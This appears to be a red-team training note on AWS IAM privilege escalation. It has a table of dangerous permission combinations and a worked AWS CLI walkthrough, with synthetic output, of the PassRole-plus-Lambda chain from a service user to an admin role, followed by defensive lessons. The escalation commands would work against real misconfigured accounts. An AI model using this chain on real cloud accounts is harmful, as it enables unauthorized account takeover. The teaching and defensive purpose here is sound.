

# Cloud Identity Operations

> [!warning] Authorized simulation only
> Model IAM escalation only against synthetic policies in a scoped lab account. Prove the *path* with a canary role — never assume real admin or touch production identities.

## Parent Learning Order
Cloud Identity Operations -> Cloud Control Plane Operations -> Cloud Persistence Simulation -> Cloud Data Access Simulation

## In the Cloud, Identity Is the Perimeter

There is no network edge to breach in a cloud account — every action is an API call authorized by an **IAM policy**. Attacking the cloud is therefore mostly attacking identity: finding a principal (user, role, or service) whose permissions let it *grant itself more* permissions. This is **privilege escalation by policy**, and it rarely needs an exploit — just an over-permissive combination of allowed actions.

The canonical example is `iam:PassRole`. On its own it is harmless. Combined with a service that *runs code with a role you pass it* — Lambda, EC2, Glue — it becomes: "create a function, pass it the admin role, invoke it, and now your code runs as admin."

**The deliberate break:** cloud security is network security in somebody else's datacentre — segment it, firewall it, and the familiar rules apply.

There is no network to stand in. In cloud, **identity is the perimeter**, and the lateral movement you are used to is replaced by *assuming a role*. No packet crosses a segment, no host is compromised, nothing gets exploited: a principal calls an API it is permitted to call, receives credentials for a second principal, and is now that principal. A firewall cannot see it and a network diagram cannot show it, because it happened entirely inside the control plane's authorisation model.

That is why the dangerous findings here are **permission combinations** rather than vulnerabilities. `iam:PassRole` next to a compute-creation permission is not a bug in anything; it is two grants that compose into privilege escalation, in the same way the AD note's five sanctioned rights composed into Domain Admin.

**How you'd spot it:** enumerate what your current principal may do, then ask which of those actions can produce *another* principal's credentials — pass a role, create a key, assume, update a trust policy. That question, not a CVE list, is the cloud escalation path.

## Dangerous Permission Combinations

| Combination | Why it escalates |
|---|---|
| `iam:PassRole` + `lambda:CreateFunction` + `lambda:InvokeFunction` | Run attacker code under any passable role |
| `iam:CreatePolicyVersion` (on your own attached policy) | Rewrite your permissions to `*` |
| `iam:AttachUserPolicy` | Attach `AdministratorAccess` to yourself |
| `sts:AssumeRole` on an over-trusting role | Become a more-privileged principal |
| `iam:CreateAccessKey` (on another user) | Mint long-lived creds for a privileged user |

The security invariant: a principal should never be able to reach permissions it was not explicitly granted. Escalation is a *transitive* property — you must evaluate not just direct permissions but what those permissions let you *become*.

The escalation is a chain of individually-innocuous permissions, read left to right:



## Worked Example: Escalating Through PassRole Without an Exploit

Cloud privilege escalation is usually not a vulnerability — it is a permitted
combination of API calls. This walks the canonical `iam:PassRole` chain from a
low-privileged principal to account admin, using nothing an exploit scanner would
flag.

> [!note] Representative output
> Reconstructed to match the AWS CLI's real output shapes rather than captured from one account; identifiers are synthetic. The field names, error strings and command structure are what a live account returns.

**Know who you are** — the first call in any cloud operation:

```shell-session
$ aws sts get-caller-identity
{
    "UserId": "AIDA4XMPL7QEXAMPLE01",
    "Account": "123456789012",
    "Arn": "arn:aws:iam::123456789012:user/ci-deploy"
}
```

`ci-deploy` is a service user, not an admin. The question is not "am I admin" but
"can I *become* admin" — and the answer lives in what this principal is permitted
to do, not in what it is.

**Enumerate the dangerous permissions** the principal holds:

```shell-session
$ aws iam list-attached-user-policies --user-name ci-deploy
{
    "AttachedPolicies": [
        { "PolicyName": "ci-deploy-lambda", "PolicyArn": "arn:aws:iam::123456789012:policy/ci-deploy-lambda" }
    ]
}
$ aws iam get-policy-version --policy-arn arn:aws:iam::123456789012:policy/ci-deploy-lambda --version-id v3 \
    --query 'PolicyVersion.Document.Statement[].Action'
[ "iam:PassRole", "lambda:CreateFunction", "lambda:InvokeFunction" ]
```

Three actions, each individually mundane. `iam:PassRole` alone does nothing. But
`PassRole` plus the ability to create and invoke a Lambda is the classic
escalation: create a function, pass it a role more privileged than yourself,
invoke it, and your code runs with that role's permissions.

**Execute the chain.** Create a function that runs under the admin role, and
invoke it:

```shell-session
$ aws lambda create-function --function-name deploy-helper \
    --runtime python3.12 --handler h.run --zip-file fileb://f.zip \
    --role arn:aws:iam::123456789012:role/OrgAdminRole
{
    "FunctionName": "deploy-helper",
    "Role": "arn:aws:iam::123456789012:role/OrgAdminRole",
    "State": "Active"
}
$ aws lambda invoke --function-name deploy-helper --payload '{"cmd":"whoami"}' out.json >/dev/null
$ grep -o 'OrgAdminRole' out.json
OrgAdminRole
```

The function was accepted with `OrgAdminRole` attached — the control plane never
asked whether `ci-deploy` *deserved* that role, only whether it was permitted to
`PassRole` it, which it was. Code now runs as `OrgAdminRole`, and the account is
effectively taken over by a principal that started with three innocuous
permissions.

The lesson for both sides is that escalation is *transitive*. A permission review
that reads each grant in isolation passes this policy — nothing here says
`Administrator`. Escalation lives in what the permissions let the principal
*become*, which is why cloud IAM must be evaluated as a graph of reachable
privilege, and why tools that compute that reachability (the "who can become
admin" query) find what a line-by-line review misses.

## Summary

You should now be able to:

- Why is "identity is the perimeter" true in a cloud account with no network edge?
- Given a role with `iam:PassRole` and `ec2:RunInstances`, describe the escalation and the canary that proves it safely.
- Explain how a permissions boundary or SCP stops `PassRole` escalation even when the principal's own policy allows it.

---
> 🔼 Up: [[Cloud Red Team Operations]]
